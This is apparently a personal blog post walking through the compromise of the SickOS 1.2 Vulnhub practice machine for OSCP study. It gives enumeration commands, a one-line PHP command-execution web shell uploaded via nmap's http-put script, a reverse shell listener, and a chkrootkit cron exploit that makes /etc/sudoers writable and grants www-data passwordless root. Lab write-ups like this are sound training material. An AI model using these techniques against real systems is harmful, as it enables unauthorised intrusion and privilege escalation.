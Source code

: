 ```yaml
---
layout: post
title: "Sick OS 1.2"
date: 2020-08-19
ctf: true
excerpt: "Walkthrough for Sick OS 1.2 on Vulnhub"
tags: [OSCP, chkrootkit, privilege escalation, curl, nmap http-put]
comments: false


---
```


[SickOS 1.2](https://www.vulnhub.com/entry/sickos-12,144/) a vulnerable machine found on the [NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) list which I have been using as preparation for the OSCP. Below is a walkthrough to compromise this machine.

First, after downloading and importing the machine into VMware, I had to figure out the IP address of the machine. I used **netdiscover -i eth0** until I came across the IP of this machine.

![SickOS 1.2 netdiscover](/assets/img/SickOS1.png)

Next I ran **threader3000** and let it run its recommended nmap scan.

![SickOS 1.2 threader3000 nmap](/assets/img/SickOS2.png)

It appears that SSH and HTTP are open. I pulled up the main website and was presented with the following.

![SickOS 1.2 website](/assets/img/SickOS3.png)

I decided to run **gobuster dir -u http://[machine ip] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .php,.txt -t 50** to enumerate the website. It uncovered a **/test** subdirectory.

![SickOS 1.2 gobuster](/assets/img/SickOS4.png)

I navigated to this page, and it appears to list contents of this directory, which has nothing in it.

![SickOS 1.2 /test](/assets/img/SickOS5.png)

I looked around and didn't see anything we could immediately exploit and there were not any other uncovered pages. I decided to use **curl -X OPTIONS -v http://[machine ip]/test** to see what was allowed in this directory. I uncovered that **PUT** was allowed.

![SickOS 1.2 curl](/assets/img/SickOS6.png)

With this discovery, I used **nmap [machine ip] -p 80 --script http-put --script-args http-put.url='/test/shell.php', http-put.file='[location to reverse shell file]'**. I used the reverse shell from [PenTestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

![SickOS 1.2 nmap http-put](/assets/img/SickOS7.png)

I then tested this with a reverse shell, but unfortunately it didn't work. I instead created a php file with **\<?php $cmd=$_GET['cmd'];system($cmd);?\>** in it, and saved it as CommandExecution.php. I then uploaded it the same way I uploaded the reverse shell in the prior step.

![SickOS 1.2 nmap http-put 2](/assets/img/SickOS8.png)

Next, I opened a reverse shell listener on port 443 on my attacker computer.

![Sick OS 1.2 nc listener](/assets/img/SickOS9.png)

After trial and error, I discovered that running a Python reverse shell with the command injection script worked, and gave us an initial foothold on the victim PC.

![Sick OS 1.2 python reverse shell](/assets/img/SickOS10.png)

Next, I ran who and it revealed we have a shell as **www-data**, I then ran **python -c 'import pty; ptw.spawn("/bin/sh")'** to upgrade my shell to a TTY shell.

![Sick OS 1.2 www-data shell](/assets/img/SickOS11.png)

Next, I tried navigating to the tmp directory and using wget to copy over linpeas for enumeration, but that was unsuccessful. However, we knew we could use nmap (as we had done twice earlier) to copy over files. I did this to copy over linpeas.

![Sick OS 1.2 nmap http-put 3](/assets/img/SickOS12.png)

Next, I ran **chmod +x linpeas.sh** to make linpeas executable and started it with **./linpeas.sh**.

![Sick OS 1.2 chmod +x](/assets/img/SickOS13.png)

Linpeas returned some interesting information.

![Sick OS 1.2 linpeas 1](/assets/img/SickOS14.png)

![Sick OS 1.2 linpeas 2](/assets/img/SickOS15.png)

![Sick OS 1.2 linpeas 3](/assets/img/SickOS16.png)

It appears that the kernel is exploitable and gcc is installed to compile exploits. **chrootkit** is also setup as a cron job and some versions are vulnerable to exploit. I ran **chkrootkit -V** to see the version that was installed.

![Sick OS 1.2 chkrootkit -V](/assets/img/SickOS17.png)

Back on our attacker pc, I ran **searchsploit chkrootkit**. One of the results returns the version that is installed on the victim machine!

![Sick OS 1.2 searchsploit chkrootkit](/assets/img/SickOS18.png)

Next, I ran **searchsploit -x 33899** to view the contents of this file. It tells you how to exploit **chkrootkit **.

![SickOS 1.2 searchsploit -x 33899](/assets/img/SickOS19.png)

I navigated to the tmp folder with **cd /tmp** and ran **echo "chmod 777 /etc/sudoers" > update** and made it executable with **chmod +x update**. I then waited a couple of minutes for this to be triggered.

![Sick OS 1.2 update file](/assets/img/SickOS20.png)

I then ran **ls -al /etc |grep sudoers**, which showed that the permissions on this file had been updated!

![Sick OS 1.2 ls -al /etc](/assets/img/SickOS21.png)

Next, I ran **echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers** to give the www-data the ability to run anything as root with sudo with no password.

![Sick OS 1.2 modify /etc/sudoers](/assets/img/SickOS22.png)

Next, I ran **sudo su**, which didn't work because permissions on /etc/sudoers should be 440.

![Sick OS 1.2 sudo su failed](/assets/img/SickOS23.png)

Next, I went back to the /tmp directory and updated the update file with **echo "chmod 0440 /etc/sudoers" > update**. I waited a couple of minutes for this to take effect.

![Sick OS 1.2 modify update file](/assets/img/SickOS24.png)

I then ran **ls -al /etc|grep sudoers**, which showed the permissions had been changed back to the proper permissions. I then ran **sudo su** which gave me a root shell.

![Sick OS 1.2 modify sudoers permissions](/assets/img/SickOS25.png)

I then ran **cd /root** followed by **ls -al**. There was a flag file present, which I viewed the contents of with **cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt**, which showed the information below!

![Sick OS 1.2 root flag](/assets/img/SickOS26.png)
